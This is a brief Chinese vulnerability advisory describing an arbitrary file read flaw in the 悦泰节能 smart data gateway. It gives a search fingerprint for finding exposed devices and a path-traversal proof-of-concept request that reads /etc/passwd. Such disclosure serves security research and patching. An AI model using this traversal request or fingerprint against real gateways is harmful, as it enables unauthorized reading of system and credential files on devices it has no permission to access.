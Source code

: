 # 悦泰节能 智能数据网关 resources 任意文件读取漏洞

# 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## 网络测绘

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](/images/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](/images/202202162249623.png)

